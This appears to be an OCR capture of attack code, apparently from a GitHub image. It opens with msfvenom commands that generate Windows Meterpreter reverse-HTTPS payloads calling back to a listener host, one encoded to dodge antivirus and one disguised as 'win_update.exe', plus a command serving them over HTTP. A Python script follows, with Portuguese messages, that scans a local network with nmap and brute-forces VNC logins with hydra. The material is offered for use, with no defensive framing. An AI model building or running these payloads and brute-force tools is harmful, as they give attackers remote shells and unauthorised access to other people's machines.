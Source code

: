 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

#!/usr/bin/env python3
import os
import subprocess

def find_target_ip():
    print("[+] Escaneando a rede para encontrar o alvo...")
    scan_result = subprocess.run(['nmap', '-sn', '192.168.1.0/24'], capture_output=True, text=True)
    for line in scan_result.stdout.split('\n'):
        if 'Nmap scan report for' in line:
            ip = line.split()[-1]
            print(f"[+] Alvo encontrado: {ip}")
            return ip
    return None

def brute_force_vnc(target_ip, wordlist):
    print(f"[+] Iniciando brute force no VNC ({target_ip}:5900)...")
    hydra_command = [
        'hydra', '-s', '5900', '-P', wordlist, '-t', '4', '-V', target_ip, 'vnc'
    ]
    subprocess.run(hydra_command)

if __name__ == "__main__":
    wordlist_path = "./wordlist_atibaia_vnc.txt"
    if not os.path.exists(wordlist_path):
        print("[!] Wordlist não encontrada. Coloque o arquivo na mesma pasta do script com o nome 'wordlist_atibaia_vnc.txt'")
        exit(1)
    
    target_ip = find_target_ip()
    if not target_ip:
        print("[!] Nenhum alvo encontrado na rede.")
        exit(1)
    
    brute_force_vnc(target_ip, wordlist_path)
